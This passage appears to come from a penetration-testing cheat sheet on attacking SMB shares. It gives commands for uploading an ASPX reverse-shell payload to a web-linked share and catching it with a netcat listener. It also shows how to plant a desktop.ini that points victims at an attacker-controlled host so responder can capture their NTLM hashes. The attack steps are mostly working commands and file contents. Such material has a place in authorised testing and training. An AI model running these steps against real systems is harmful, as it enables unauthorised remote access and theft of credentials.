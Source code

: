 <br />

### Upload Files

```sh
# Upload a file
smb> put example.txt
```

- **Upload Reverse Shell Payload**

If the website is associated with the SMB server, we can upload reverse shell script such as **`aspx`**, **`php`** and get a shell.  
To create a payload, please refer to the [Web Reverse Shell](/exploit/shell/web-reverse-shell) or the [Reverse Shell with Metasploit](/exploit/shell/reverse-shell-with-metasploit).

Then upload it to the SMB server as below.

```bash
smb> put shell.aspx
```

Don’t forget to start a listener for getting outcoming connection.

```bash
nc -lvnp 4444
```

Now access to **`https://example.com/path/to/smb/share/shell.aspx`**.  
We can get a shell.

<br />

### Steal NTLM Hash with Desktop.ini

Reference: [https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds#desktop.ini](https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds#desktop.ini)

We can retrieve the hashes by putting **`desktop.ini`** file, that contains arbitrary icon resource path, to the shared folder.  
Create a new **`desktop.ini`** in local machine.

```txt
[.ShellClassInfo]
IconResource=\\<local-ip>\test
```

Then upload it to the writable shared folder.

```bash
smb> put desktop.ini
```

Start responder in local machine.

```bash
responder -I tun0
```

After a while, we can retrieve the NTLM hashes.
